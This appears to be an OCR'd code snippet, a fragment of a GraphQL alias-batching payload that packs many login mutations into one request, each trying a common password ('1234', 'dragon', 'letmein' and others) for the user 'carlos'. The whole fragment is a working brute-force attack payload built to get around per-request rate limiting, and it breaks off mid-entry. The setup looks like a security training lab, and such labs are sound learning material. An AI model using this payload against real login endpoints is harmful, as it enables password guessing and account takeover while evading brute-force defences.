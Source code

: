 ```bash


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
```